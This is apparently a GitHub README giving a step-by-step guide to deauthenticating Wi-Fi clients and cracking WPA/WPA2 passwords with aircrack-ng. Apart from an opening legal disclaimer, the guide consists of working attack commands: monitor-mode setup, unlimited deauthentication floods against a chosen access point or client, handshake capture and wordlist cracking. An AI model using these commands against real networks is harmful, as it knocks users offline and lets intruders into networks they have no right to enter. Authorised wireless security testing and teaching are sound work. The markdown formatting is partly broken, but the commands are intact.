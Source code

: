 # Deauthentication Attack and Wi-Fi Password Cracking using aircrack-ng

## Disclaimer
**WARNING: Unauthorized access to computer networks is illegal and unethical. This guide is intended for educational purposes only and should only be used on networks for which you have explicit permission. Misuse of this information can lead to severe legal consequences.**

## Prerequisites
- A computer with a compatible wireless network adapter that supports monitor mode.
- `aircrack-ng` suite installed.
- Root or sudo access.

## Step 1: Install aircrack-ng
To install the `aircrack-ng` suite, use the following commands:

```bash
# Update package lists
sudo apt update

# Install aircrack-ng
sudo apt install aircrack-ng

##Step 2: Set Wireless Interface to Monitor Mode
Find your wireless interface name and set it to monitor mode.
# List network interfaces
sudo iwconfig

# Stop any process that could interfere with monitor mode
sudo airmon-ng check kill

# Start monitor mode on your wireless interface (e.g., wlan0)
sudo airmon-ng start wlan0

# Verify that the interface is now in monitor mode (e.g., wlan0mon)
sudo iwconfig

##Step 3: Capture Traffic with airodump-ng
# Start capturing packets on the monitor mode interface
sudo airodump-ng wlan0mon

# Note the BSSID (MAC address) and channel of the target network
##Step 4: Deauthentication Attack with aireplay-ng
Send deauthentication packets to disconnect clients from the target network, forcing them to reconnect and capture the handshake.

# Deauthenticate a specific client
sudo aireplay-ng --deauth 0 -a <BSSID> -c <Client_MAC> wlan0mon

# Deauthenticate all clients from the target network
sudo aireplay-ng --deauth 0 -a <BSSID> wlan0mon

##Step 5: Capture the WPA/WPA2 Handshake
# Capture the handshake by specifying the BSSID and channel
sudo airodump-ng -c <Channel> --bssid <BSSID> -w capture wlan0mon

# Look for "WPA handshake" in the airodump-ng output

##Step 6: Crack the Password with aircrack-ng
# Run aircrack-ng with the captured handshake file and a wordlist
sudo aircrack-ng -w /path/to/wordlist.txt -b <BSSID> capture-01.cap


